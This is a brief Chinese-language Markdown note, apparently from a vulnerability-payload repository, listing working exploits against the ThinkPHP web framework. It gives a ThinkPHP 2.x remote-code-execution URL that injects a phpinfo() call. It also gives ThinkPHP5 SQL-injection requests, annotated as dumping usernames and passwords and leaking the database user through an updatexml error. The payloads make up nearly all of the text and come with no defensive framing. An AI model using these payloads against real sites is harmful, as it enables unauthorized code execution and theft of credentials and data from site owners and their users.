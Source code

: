 #### ThinkPHP-2.x-任意代码执行漏洞

```
http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```

#### ThinkPHP5-SQL注入漏洞+敏感信息泄露

```bash
/?ids[]=1&ids[]=2 # 爆出用户名和密码
?ids[0,updatexml(0,concat(0xa,user()),0)]=1 # 错误回显敏感信息，数据库名
```

![image](img/thinkphp1.png)